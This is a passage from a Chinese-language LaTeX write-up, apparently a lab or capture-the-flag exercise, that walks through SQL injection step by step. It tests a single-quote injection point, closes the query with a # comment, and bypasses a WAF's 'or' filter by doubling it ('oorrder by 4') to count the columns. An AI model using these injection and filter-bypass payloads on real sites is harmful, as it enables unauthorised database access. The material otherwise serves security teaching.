    
\includegraphics[width=0.95\textwidth]{6.1.png}
    \caption{注入点测试（单引号报错）}
\end{figure}

使用单引号闭合 + \# 注释，页面恢复正常：
\begin{lstlisting}
Amy Jones'\#
\end{lstlisting}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{6.2.png}
    \caption{闭合注释测试成功}
\end{figure}

\subsubsection{步骤2：双写绕过，判断查询列数}
由于WAF过滤or，使用双写\textbf{oorrder}绕过：
\begin{lstlisting}
Amy Jones' oorrder by 4\#
\end{lstlisting}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{6.3.png}
    \caption{双写绕过判断4列正常}
\end{figure}

测试5列报错，确认表共\textbf{4列}：
\begin{figure}[H]
    \centering
